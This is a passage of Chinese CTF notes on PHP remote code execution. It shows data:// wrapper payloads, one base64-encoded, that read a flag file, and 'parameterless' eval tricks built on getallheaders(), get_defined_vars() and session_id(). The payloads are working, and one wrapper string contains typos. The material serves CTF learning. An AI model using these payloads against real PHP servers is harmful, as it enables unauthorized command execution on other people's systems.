 payload:

```
?c=data://text/palin,<?php echo system('cat flag');?>
```

对php过滤时：

```
?c=data://text:text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

# 11.无参数命令执行

## 请求头绕过(php7.3)

getallheaders()获取所有头部信息，功能与上个相似apache_request_headers()

pos()获取第一个

end()获取最后一个

获取到之后进行执行即可

eval(pos(getallheaders()))

## 全局变量RCE(php5/7)

get_defined_vars()用于返回已经定义的变量方法

get>post>cookie>file>server

可以定义多个get方法，返回get方法的第二个参数然后执行

payload

```
?code=eval(end(pos(get_defined_vars())));&cmd=system('ls');
```

## 利用session（php5）

print_r(session_id(session_start()))打印phpsession的值

**方法一：**

```
show_source(session_id(session_start()));

修改phpsession=./flag
```

**方法二：**

```
eval(bin2hex(session_id(session_start())))
phpsession:将命令改为16进制编码
```
